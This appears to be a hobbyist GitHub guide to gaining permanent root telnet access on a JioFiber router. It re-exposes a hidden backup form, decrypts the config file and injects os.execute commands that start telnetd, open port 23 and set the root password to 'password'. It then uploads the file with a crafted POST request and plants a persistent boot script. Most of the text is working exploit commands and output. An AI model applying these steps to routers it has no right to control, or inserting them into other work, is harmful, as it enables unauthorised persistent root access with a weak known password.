



# Getting permanent telnet and root access on a JioFiber router.

Why?
_Why not?_

I have assembeled this guide using various sources from the web and you can see the sources [here.](#references)

Let's start then, shall we?

# Retrieving the router config file

Since the devs over at TeamF1 don't want to fix vulnerabilities and instead decided to just nuke the restore and backup feature entirely, the file has to be retrieved with abnormal ways. Luckily, the overworked devs over at teamf1 dont bother deleting code from their production version and just comment the frontend functions out. That means we can just call the router api directly and retrieve the config file.

Steps:

-   Go to the router web console (logged in as admin)
-   Go to Administration -> Maintenence
-   Open devtools
-   Go to elements tab
-   Search for `<form name="tf1_frmBackupSaveCurrentSettings" method="post" action="?action=backup">` form element
-   Uncomment the form element and code around it
-   There should now be an option to `Save Current Settings` and `Restore Saved Settings`, which we will use later.
-   Click the `Backup` button next to `Save Current Settings`, and it should download the config file.

# Breaking the config file encryption

Prerequisites: Openssl

-   Now that we have the config file, we can use the keyguesser.py script to break the encryption and extract the router SSID and password.
-   Edit the keyguesser.py script and change the `routerSsid` and `routerSerial` variables accordingly. The router SSID is the DEFAULT SSID of your router, e.g., "JioFiber-cbajSB". You have to just take the "cbajSB" part in the above `routerSsid` variable.
-   Edit the keyguesser.py script and change the `inFileName` variable to the name of your downloaded config file. (ending with .enc)
-   Edit the keyguesser.py script and change the `outFileName` variable to the name of the output file. (ex: config.txt)
-   Run the keyguesser.py script
-   It should find the correct key and decrypt the config file. Save the key in a file called `key.txt`, it should have nothing else in it.

# Modifying the router config file and re-encrypting it

-   We now have the decrypted config file. We can modify it and re-encrypt it.
-   Replace the **FIRST LINE** (should look something like `config.userdb = {}`) of the decrypted config file with the following: `config.userdb = {} os.execute("/usr/sbin/telnetd"); os.execute("/pfrm2.0/bin/iptables -I fwInBypass -p tcp --dport 23 -m ifgroup --ifgroup-in 0x1/0x1 -j ACCEPT"); os.execute("echo -e \"password\npassword\" | passwd root");`
-   This will start a telnetd server, add the iptables rule and set the root password to "password".
-   Using the key we found earlier, we can now re-encrypt the config file as follows:
    -   `openssl aes-128-cbc -pass file:key.txt -in input.txt -out output.enc`
-   Rename the `output.enc` file to what the original config file was named, and add a `BAK_` infront of the original config file name, so that we can use that if something goes wrong (even though a hard reset will fix it).

# Sending the modified config file to the router

-   Go to the router web console (logged in as admin)
-   Go to Administration -> Maintenence
-   Open devtools
-   Go to the Application tab
-   Go to Cookies > `http://<router-ip>`. Example: `http://192.168.1.1`
-   Look for the TeamF1Login cookie and copy the value, this will be used later
-   Go to elements tab
-   Search for `<form name="tf1_frmBackupSaveCurrentSettings" method="post" action="?action=backup">` form element
-   There should be a hidden input element which looks like `<input type="hidden" name="token" value="<some long token>">`
-   Copy the token from the value attribute
-   Open insomnia or postman
-   Create a new HTTP POST request to the router, at `<router-ip>/platform.cgi`. Example: `http://192.168.1.1/platform.cgi`
-   Add the following headers:
    -   `Content-Type: application/x-www-form-urlencoded`
    -   `Cookie: TeamF1Login=<session cookie copied from cookies tab>`
    -   `Referer: http://<router-ip>/platform.cgi?page=factoryDefault.html`
    -   `Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9`
-   Add the following form data:
    -   `button.restore.statusPage: Restore`
    -   `token: <token copied from the form element>`
    -   `file: <the reencrypted config file>`
    -   `thisPage: factoryDefault.html`
-   Send the request, it should take around 3-4 seconds for the response to show up. If its a 401 error, some token expired, get a new token and try again. Rule of thumb: All the tokens refresh as soon as the page is refreshed so make it quick.

-   The response should have

```
Changing password for root
New password:
Bad password: too weak
Retype password:
Password for root changed by root
Changing password for root
New password:
Bad password: too weak
Retype password:
Password for root changed by root
```

at the top of the HTML page

-   Here's the request as a curl command for bash for reference:

```bash
curl --request POST \
  --url http://192.168.1.1/platform.cgi \
  --header 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
  --header 'Content-Type: multipart/form-data' \
  --header 'Cookie: TeamF1Login=a75ae3f80f8e24ecd7796c2880dcb3a' \
  --header 'Referer: http://192.168.1.1/platform.cgi?page=factoryDefault.html' \
  --form button.restore.statusPage=Restore \
  --form 'file.restore=@C:\Users\Username\Desktop\RouterHack\RSXXXXXXXXX_JCOW414.enc' \
  --form token=voarahdeuheedooteethoovotahzoraweitaupooheecomaiquechaijoochahsi \
  --form thispage=factoryDefault.html
```

-   A telnet port should open on the router, and you should be able to login as root with the password "password". (You can check for the port with nmap)

# Getting permanent telnet and root access

-   Currently the telnet daemon will turn off after some time and wont survive a reboot. To fix this, we'll create a script on the persistent storage that will turn the telnet daemon on when the router boots, and set the root password to "password".
-   Delete `/flash/telnetDisable` and telnet will start up automatically.
-   Now time for the root password. Create a file `/flash2/pfrm2.0/etc/voipInit` and make it executable by `chmod +x /flash2/pfrm2.0/etc/voipInit`.
-   Open the file in a text editor like `vi` and add the following code:

```bash
#!/bin/sh
echo -e "password\npassword" | passwd root

# Run the original script in the background
. /pfrm2.0/etc/voipInit &
```

-   Done! And if you want to add any other commands to run on startup, add them after the `passwd root` command in the file.
-   Why did this work? This is because an initialisation script runs the following:

```bash
if [ -e /flash2/pfrm2.0/etc/voipInit ]; then
/flash2/pfrm2.0/etc/voipInit &
else
[ -e ./voipInit ] && . ./voipInit &
fi
sleep 5;
```

It checks if `/flash2/pfrm2.0/etc/voipInit` exists and if it does, it runs it. If it doesn't, it checks if `./voipInit` exists and runs it. Luckily, /flash2 is writable! Thus we can add our own scripts to run on startup.

### Some screenshots and notes




Nmap before:

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-31 22:57 India Standard Time
Nmap scan report for reliance.reliance (192.168.1.1)
Host is up (0.0049s latency).
Not shown: 991 filtered tcp ports (no-response)
PORT     STATE  SERVICE
80/tcp   open   http
443/tcp  open   https
1900/tcp open   upnp
2869/tcp closed icslap
7443/tcp open   oracleas-https
8002/tcp closed teradataordbms
8080/tcp open   http-proxy
8200/tcp closed trivnet1
8443/tcp open   https-alt
MAC Address: F0:ED:B8:D2:53:F4 (Servercom (India) Private Limited)

Nmap done: 1 IP address (1 host up) scanned in 4.67 seconds
```

Nmap after:

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-31 23:07 India Standard Time
Nmap scan report for reliance.reliance (192.168.1.1)
Host is up (0.0031s latency).
Not shown: 990 filtered tcp ports (no-response)
PORT     STATE  SERVICE
23/tcp   open   telnet
80/tcp   open   http
443/tcp  open   https
1900/tcp open   upnp
2869/tcp closed icslap
7443/tcp open   oracleas-https
8002/tcp closed teradataordbms
8080/tcp open   http-proxy
8200/tcp closed trivnet1
8443/tcp open   https-alt
MAC Address: F0:ED:B8:D2:53:F4 (Servercom (India) Private Limited)

Nmap done: 1 IP address (1 host up) scanned in 5.29 seconds
```

Telnet shell:


## Bonus:

You can modify the `/flash2/pfrm2.0/etc/voipInit` script to run your own custom startup script. Here's what I have setup:

`File: /flash2/pfrm2.0/etc/voipInit`

```bash
#!/bin/sh

/pfrm2.0/etc/voipInit &

# Run custom init script
/flash2/customInit &
```

`File: /flash2/customInit`

```bash
#!/bin/sh

# Change root password
echo "root:strong_password_here" | chpasswd

# Allow useful ports through firewall
iptables -I fwInBypass -p tcp --dport 21 -m ifgroup --ifgroup-in 0x1/0x1 -j ACCEPT  # FTP

# Create a file to confirm if the startup file ran
touch /tmp/custom_script_ran

# Start FTP
vsftpd /flash2/config/vsftpd.conf &     # You'll need to set this up

```

## References

-   https://github.com/JFC-Group/JF-Customisation
-   https://github.com/JFC-Group/JF-Customisation/blob/main/Instructions/Alternate-Way-To-Get-Root-Access-JF-ONT-Home-Gateway.md
-   https://yashgarg.dev/notes/jiofiber-bits/
-   https://www.nanibot.net/posts/jio-notes/
